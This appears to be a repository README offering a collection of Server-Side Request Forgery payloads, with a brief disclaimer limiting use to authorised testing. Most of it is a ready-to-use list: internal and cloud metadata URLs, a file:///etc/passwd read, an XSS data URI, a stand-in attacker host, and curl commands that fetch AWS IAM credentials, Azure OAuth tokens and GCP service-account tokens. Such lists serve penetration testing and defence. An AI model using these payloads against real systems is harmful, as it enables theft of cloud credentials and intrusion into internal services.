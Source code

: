 # SSRF Payload Collection

This repository contains a collection of Server-Side Request Forgery (SSRF) payloads. SSRF vulnerabilities occur when an attacker can make the server perform unauthorized requests, potentially leading to unauthorized access to internal resources and data exposure.

## Usage

Use these payloads for educational and testing purposes only. Do not use them on systems without explicit permission. Unauthorized use of these payloads on systems you do not own or have authorization to test is illegal and unethical.

## Payloads

```plaintext
http://169.254.169.254/latest/meta-data/
http://127.0.0.1
http://localhost
file:///etc/passwd
data:text/html,<script>alert(1)</script>
http://your-attacker-server.com
http://169.254.169.254/metadata/instance?api-version=2021-02-01
http://metadata.google.internal/computeMetadata/v1/instance/
curl http://169.254.169.254/latest/meta-data/
curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://management.azure.com/"
curl http://169.254.169.254/metadata/instance?api-version=2021-02-01 -H "Metadata: true"
curl "http://metadata.google.internal/computeMetadata/v1/instance/" -H "Metadata-Flavor: Google"
curl "http://metadata.google.internal/computeMetadata/v1/project/" -H "Metadata-Flavor: Google"
curl http://127.0.0.1
curl http://localhost
curl http://169.254.169.254/latest/dynamic/instance-identity/document
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/public-hostname
curl http://169.254.169.254/latest/meta-data/security-groups
curl http://169.254.169.254/latest/user-data
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://management.azure.com/"
curl "http://169.254.169.254/computeMetadata/v1/instance" -H "Metadata-Flavor: Google"
curl "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"
